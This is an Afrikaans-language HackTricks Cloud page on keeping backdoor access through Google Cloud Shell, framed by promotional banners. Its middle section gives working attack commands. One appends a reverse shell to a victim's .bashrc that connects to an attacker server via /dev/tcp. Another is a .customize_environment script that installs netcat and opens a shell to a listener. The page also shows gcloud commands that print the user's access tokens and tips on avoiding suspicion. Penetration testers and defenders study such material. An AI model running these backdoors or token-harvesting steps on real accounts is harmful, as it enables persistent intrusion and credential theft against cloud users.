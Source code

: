 # GCP - Cloud Shell Volharding

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* github-opslag.

</details>

## Cloud Shell

Vir meer inligting, kyk:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Volgehoue Agterdeur

[**Google Cloud Shell**](https://cloud.google.com/shell/) bied jou die geleentheid om opdraggelyntoegang tot jou wolkbronne direk vanuit jou webblaaier te hê sonder enige verbonde koste.

Jy kan toegang tot Google se Cloud Shell kry vanaf die **webkonsol** of deur **`gcloud cloud-shell ssh`** uit te voer.

Hierdie konsol het 'n paar interessante vermoëns vir aanvallers:

1. **Enige Google-gebruiker met toegang tot Google Cloud** het toegang tot 'n ten volle geauthentiseerde Cloud Shell-instantie (Diensrekeninge kan, selfs al is hulle eienaars van die organisasie).
2. Genoemde instantie sal **sy tuisgids vir ten minste 120 dae handhaaf** as geen aktiwiteit plaasvind nie.
3. Daar is **geen vermoë vir 'n organisasie om die aktiwiteit van daardie instantie te monitor**.

Dit beteken basies dat 'n aanvaller 'n agterdeur in die tuisgids van die gebruiker kan plaas en solank die gebruiker elke 120 dae ten minste na die GC Shell verbind, sal die agterdeur oorleef en die aanvaller sal elke keer 'n skul kry wanneer dit uitgevoer word deur net te doen:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Daar is 'n ander lêer in die huisvouer genaamd **`.customize_environment`** wat, indien dit bestaan, elke keer **uitgevoer gaan word** wanneer die gebruiker die **wolkmussel** toegang (soos in die vorige tegniek). Voeg net die vorige agterdeur in of een soos die volgende om volharding te behou solank as wat die gebruiker die wolkmussel "gereeld" gebruik:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Dit is belangrik om op te let dat die **eerste keer wanneer 'n aksie wat verifikasie vereis, uitgevoer word**, 'n pop-up verifikasie-venster in die gebruiker se webblaaier verskyn. Hierdie venster moet aanvaar word voordat die bevel uitgevoer kan word. As 'n onverwagte pop-up verskyn, kan dit vermoedens wek en moontlik die volhardingsmetode wat gebruik word, in gevaar bring.
{% endhint %}

Dit is die pop-up van die uitvoering van `gcloud projects list` vanaf die wolkshell (as aanvaller) wat in die webblaaier se gebruikersessie gesien word:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Maar, as die gebruiker aktief die wolkshell gebruik het, sal die pop-up nie verskyn nie en kan jy **gebruikerstokens versamel met**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Hoe die SSH-verbinding tot stand gebring word

Basies word hierdie 3 API-oproepe gebruik:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (sal jou laat jou openbare sleutel wat jy plaaslik geskep het, byvoeg)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (sal jou laat die instansie begin)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (sal jou die IP van die Google Cloud Shell vertel)

Maar jy kan verdere inligting vind in [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Verwysings

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* github-repos.

</details>
